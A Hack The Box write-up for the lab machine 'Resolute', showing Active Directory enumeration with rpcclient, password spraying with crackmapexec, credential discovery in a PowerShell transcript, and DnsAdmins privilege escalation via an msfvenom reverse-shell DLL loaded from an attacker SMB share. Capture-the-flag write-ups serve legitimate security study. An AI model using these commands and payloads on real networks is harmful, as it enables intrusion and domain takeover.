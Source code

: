 ```yaml
---
layout: post
title: HTB Machine - Resolute
subtitle: Writeup
cover-img: https://www.hackthebox.com/storage/avatars/4c86a642ea237dfde036963e6d182b40.png
thumbnail-img: https://www.hackthebox.com/storage/avatars/4c86a642ea237dfde036963e6d182b40.png
share-img: https://www.hackthebox.com/storage/avatars/4c86a642ea237dfde036963e6d182b40.png
tags: [ HTB, Hack the Box, Network,Vulnerability Assessment,Active Directory,Security Tools,Authentication,Metasploit,Reconnaissance,Password Spraying,Weak Credentials,
Clear Text Credentials,Group Membership,Information Disclosure,Anonymous/Guest Access]
---
```


##### we try to enumerate users and group domains
```bash
rpcclient -U "" 10.10.10.169 -N -c "enumdomusers" | grep -oP '\[.*?\]' | grep -v "0x" | tr -d '[]' > users.txt

rpcclient -U "" 10.10.10.169 -N -c "enumdomgroups" | grep -oP '\[.*?\]' | grep -v "0x" | tr -d '[]'
Enterprise Read-only Domain Controllers
Domain Admins
Domain Users
Domain Guests
Domain Computers
Domain Controllers
Schema Admins
Enterprise Admins
Group Policy Creator Owners
Read-only Domain Controllers
Cloneable Domain Controllers
Protected Users
Key Admins
Enterprise Key Admins
DnsUpdateProxy
Contractors
```
##### we can check the members of the admin group with the rid and then check who is that member.
```bash
rpcclient -U "" 10.10.10.169 -N -c "querygroupmem 0x200"
	rid:[0x1f4] attr:[0x7]
	
rpcclient -U "" 10.10.10.169 -N -c "queryuser 0x1f4"
	(snip) Administrator
```
##### we try to get a TGT but it is not possible.
```bash
/home/rickybana/.local/bin/GetNPUsers.py -no-pass -usersfile users.txt megabank.local/
[-] User Administrator doesn\'t have UF_DONT_REQUIRE_PREAUTH set
[-] Kerberos SessionError: KDC_ERR_CLIENT_REVOKED(Clients credentials have been revoked)
[-] Kerberos SessionError: KDC_ERR_CLIENT_REVOKED(Clients credentials have been revoked)
[-] Kerberos SessionError: KDC_ERR_CLIENT_REVOKED(Clients credentials have been revoked)
[-] User ryan doesn\'t have UF_DONT_REQUIRE_PREAUTH set
[-] User marko doesn\'t have UF_DONT_REQUIRE_PREAUTH set
[-] User sunita doesn\'t have UF_DONT_REQUIRE_PREAUTH set
[-] User abigail doesn\'t have UF_DONT_REQUIRE_PREAUTH set
[-] User marcus doesn\'t have UF_DONT_REQUIRE_PREAUTH set
[-] User sally doesn\'t have UF_DONT_REQUIRE_PREAUTH set
[-] User fred doesn\'t have UF_DONT_REQUIRE_PREAUTH set
[-] User angela doesn\'t have UF_DONT_REQUIRE_PREAUTH set
[-] User felicia doesn\'t have UF_DONT_REQUIRE_PREAUTH set
[-] User gustavo doesn\'t have UF_DONT_REQUIRE_PREAUTH set
[-] User ulf doesn\'t have UF_DONT_REQUIRE_PREAUTH set
[-] User stevie doesn\'t have UF_DONT_REQUIRE_PREAUTH set
[-] User claire doesn\'t have UF_DONT_REQUIRE_PREAUTH set
[-] User paulo doesn\'t have UF_DONT_REQUIRE_PREAUTH set
[-] User steve doesn\'t have UF_DONT_REQUIRE_PREAUTH set
[-] User annette doesn\'t have UF_DONT_REQUIRE_PREAUTH set
[-] User annika doesn\'t have UF_DONT_REQUIRE_PREAUTH set
[-] User per doesn\'t have UF_DONT_REQUIRE_PREAUTH set
[-] User claude doesn\'t have UF_DONT_REQUIRE_PREAUTH set
[-] User melanie doesn\'t have UF_DONT_REQUIRE_PREAUTH set
[-] User zach doesn\'t have UF_DONT_REQUIRE_PREAUTH set
[-] User simon doesn\'t have UF_DONT_REQUIRE_PREAUTH set
[-] User naoki doesn\'t have UF_DONT_REQUIRE_PREAUTH set
```

##### There is a password for a user when displaying the info
```bash
rpcclient -U "" 10.10.10.169 -N -c "querydispinfo"
(snip)
index: 0x10a9 RID: 0x457 acb: 0x00000210 Account: marko	Name: Marko Novak	Desc: Account created. Password set to Welcome123!
(snip)
```
##### We try to winrm and smb with the cred marko:Welcome123! but it didnt work so we are going to spray that password to other users and see.
```bash
crackmapexec smb 10.10.10.169 -u users.txt -p Welcome123! --continue-on-success
SMB         10.10.10.169    445    RESOLUTE         [*] Windows Server 2016 Standard 14393 x64 (name:RESOLUTE) (domain:megabank.local) (signing:True) (SMBv1:True)
SMB         10.10.10.169    445    RESOLUTE         [+] megabank.local\melanie:Welcome123! 
```
###### we found valid credentials 
```bash
crackmapexec smb 10.10.10.169 -u melanie -p Welcome123!
SMB         10.10.10.169    445    RESOLUTE         [*] Windows Server 2016 Standard 14393 x64 (name:RESOLUTE) (domain:megabank.local) (signing:True) (SMBv1:True)
SMB         10.10.10.169    445    RESOLUTE         [+] megabank.local\melanie:Welcome123! 
```
##### we can winrm with it and find the first flag.
```bash
crackmapexec winrm 10.10.10.169 -u 'melanie' -p 'Welcome123!'
SMB         10.10.10.169    5985   RESOLUTE         [*] Windows 10.0 Build 14393 (name:RESOLUTE) (domain:megabank.local)
HTTP        10.10.10.169    5985   RESOLUTE         [*] http://10.10.10.169:5985/wsman
WINRM       10.10.10.169    5985   RESOLUTE         [+] megabank.local\melanie:Welcome123! (Pwn3d!)

evil-winrm -i 10.10.10.169 -u 'melanie' -p 'Welcome123!'
```
##### We check privileges, nothing intersting. Check the folders present in users too and there is ryan, but we cannot access the folder. We can check net privileges as well.
```bash
whoami /all
(snip)
Privilege Name                Description                    State
============================= ============================== =======
SeMachineAccountPrivilege     Add workstations to domain     Enabled
SeChangeNotifyPrivilege       Bypass traverse checking       Enabled
SeIncreaseWorkingSetPrivilege Increase a process working set Enabled

C:\Users\ryan> dir
Access to the path 'C:\Users\ryan' is denied.

net user melanie
(snip)
Local Group Memberships      *Remote Management Use
Global Group memberships     *Domain Users
(snip)

net user ryan
Local Group Memberships
Global Group memberships     *Domain Users         *Contractors
```
##### we will need to check what the contractors groups can do. In the meantime if we see around the directories there is nothing that peaks our interest. However we are not able to see all hidden folders, so we need to check for those too and that way we find an interesting folder that is not usually present (PSTranscripts) and a file.
```bash
dir -Force
    Directory: C:\PSTranscripts\20191203
Mode                LastWriteTime         Length Name
----                -------------         ------ ----
-arh--        12/3/2019   6:45 AM           3732 PowerShell_transcript.RESOLUTE.OJuoBGhU.20191203063201.txt
```
##### the file contains a password for the user ryan.
```bash
ParameterBinding(Invoke-Expression): name="Command"; value="cmd /c net use X: \\fs01\backups ryan Serv3r4Admin4cc123!
```
##### validate those credentials with crackmapexec and gain access via winrm. Note: it says that is pwned for some strange reason but the user is not admin. 
```bash
crackmapexec winrm 10.10.10.169 -u ryan -p Serv3r4Admin4cc123!
SMB         10.10.10.169    5985   RESOLUTE         [*] Windows 10.0 Build 14393 (name:RESOLUTE) (domain:megabank.local)
HTTP        10.10.10.169    5985   RESOLUTE         [*] http://10.10.10.169:5985/wsman
WINRM       10.10.10.169    5985   RESOLUTE         [+] megabank.local\ryan:Serv3r4Admin4cc123! (Pwn3d!)

evil-winrm -i 10.10.10.169 -u 'ryan' -p 'Serv3r4Admin4cc123!'
```
##### When checking privileges we see the user is part of Dnsadmins group.
```bash
whoami /all
(snip)
MEGABANK\DnsAdmins                         Alias            S-1-5-21-1392959593-3013219662-3596683436-1101 Mandatory group, Enabled by default, Enabled group, Local Group
(snip)
```
##### Enumerate the groups and check the localgroup and the particular group. With the 3 following commands.
```bash
net group
net localgroup 
net localgroup DnsAdmins
```
##### same as GTFObins for linux there is LOLBAS for windows. Go to https://lolbas-project.github.io/# website and search for dns. We are gonna run a command in the target that will download a malicious dll, the service will need to be stopped and then started to download. We craft the dll with msfvenom, place our nc listener, and create an smb shared folder. We are going to use rlwrap (install with apt if needed) so we have other features.
```bash
msfvenom -p windows/x64/shell_reverse_tcp LHOST=10.10.14.4 LPORT=443 -f dll -o pwned.dll

sudo rlwrap nc -nlvp 443

/home/rickybana/.local/bin/smbserver.py smbFolder $(pwd) -smb2support
```
##### We are ready then to execute the command and then stop/start the service.
```bash
dnscmd.exe /config /serverlevelplugindll \\10.10.14.4\smbFolder\pwned.dll

sc.exe stop dns

sc.exe start dns
```
##### we should get a console now with privilege access.
```bash
C:\Windows\system32>whoami 
whoami 
nt authority\system
```

